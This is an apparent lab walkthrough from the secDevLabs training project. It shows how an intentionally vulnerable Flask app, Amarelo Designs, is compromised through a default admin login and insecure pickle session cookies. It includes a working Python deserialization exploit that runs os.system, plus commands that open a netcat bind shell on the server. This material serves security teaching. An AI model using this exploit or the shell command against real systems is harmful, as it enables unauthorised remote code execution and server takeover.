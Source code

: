# Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages, we were able to find `/user`, `/admin` and `/console`, as shown by the picture below:

```sh
$ dirb http://localhost:5000 /usr/share/wordlists/dirb/common.txt
```

<p align="center">
    <img src="attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image: 

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:

<img src="attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="attack7.png" align="center"/>

If an atacker knew that the app is using Pickle as the serialization method, he could create a malicious cookie to take advantage of it and execute code remotely. An example of the cookie is as shown:

```python
import pickle
import os
import datetime
import uuid
import subprocess
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])

class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))

pickle_result = pickle.dumps(Exploit())

result = base64.b64encode(pickle_result)

print result
print cmd
print url

cookie = {'sessionId': result}

print cookie

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution: 

```sh
$ python serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="attack9.png" align="center"/>

In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="attack11.png"/>
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
